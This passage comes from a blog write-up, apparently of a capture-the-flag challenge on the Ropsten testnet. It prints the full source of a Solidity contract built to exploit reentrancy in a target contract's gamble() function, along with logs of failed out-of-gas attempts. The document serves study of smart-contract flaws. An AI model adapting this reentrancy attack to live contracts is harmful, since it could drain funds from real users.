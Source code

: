 Now I got the idea that since the ReEntrance contract was already instantiated on the network using Remix, could I make an `enter()` transaction using *MyEtherWallet* instead? Maybe there I could set the gas limit properly? I decided to try. I created some transactions with gas limit of one million until I got a block number divisible with seven in TX [0xe5d4083afafa10dca305...](https://ropsten.etherscan.io/tx/0xe5d4083afafa10dca3057c8b7944d09f457cc5e4c0fadcee76511318c276cc28). Out of gas again, and running `balanceOf()` returned just 110.

Now I thought that the operations of checking the balance and see whether it was time to call `getFlag()` costed too much gas to I decided to remove both the check and the call. I figured I can just `gamble()` until the transaction runs out of gas and then call `getFlag()` manually. That must be done with the same sender though, so I added a function to ReEntrance for doing so, see highlighted lines below. Now the [`ReEntrance.sol`](/blog/resources/ReEntrance.sol) source code looks like this:

{{< highlight solidity "linenos=table,hl_lines=21-23" >}}
pragma solidity >=0.4.21 <0.6.0;

import "browser/Entrance.sol";

contract ReEntrance {
  Entrance public entrance;
  string server;
  string port;

  constructor (address _entrance, string _server, string _port) public {
    server = _server;
    port = _port;
    entrance = Entrance(_entrance);
  }
  
  function enter () public {
    entrance.enter(12341111);
    entrance.gamble();
  }
  
  function getFlag () public {
    entrance.getFlag(server, port);
  }

  function kill () public {
    selfdestruct(msg.sender);
  }
  
  function () public payable {
    entrance.gamble();
  }
}
{{< /highlight >}}

Compiling this version gave me [this ABI](/blog/resources/ReEntrance.abi.json). A new instance was created at address [0x67ed0fee42a4131b0af0d44e00a2cb7357b7b943](https://ropsten.etherscan.io/address/0x67ed0fee42a4131b0af0d44e00a2cb7357b7b943).

I created new `enter()` transactions with gas limit one million until I got lucky in TX [0xad3c7fca72744e9a488b...](https://ropsten.etherscan.io/tx/0xad3c7fca72744e9a488b4e84f50ed56666519ce285b15c75d3086c6b88418975). Out of gas as expected, but only 110 in balance again.
